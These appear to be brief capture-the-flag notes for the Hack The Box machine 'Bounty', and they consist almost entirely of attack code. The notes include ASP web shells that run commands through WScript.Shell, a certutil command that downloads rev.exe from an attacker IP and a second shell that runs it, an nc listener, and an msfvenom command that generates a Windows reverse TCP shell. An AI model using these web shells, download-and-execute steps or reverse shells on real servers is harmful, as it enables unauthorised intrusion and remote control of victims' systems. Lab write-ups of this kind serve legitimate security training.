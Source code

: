 # Hack The Box: Bounty

ASP-Shell

<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>

<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c certutil -urlcache -split -f http://10.10.14.21/rev.exe C:\\windows\temp\\rev.exe")
%>

<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c C:\\windows\temp\\rev.exe")
%>

```zsh
rlwrap nc 443
```

use of attrib to see hidden files

```zsh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.21 LPORT=443 -f exe > rev.exe
```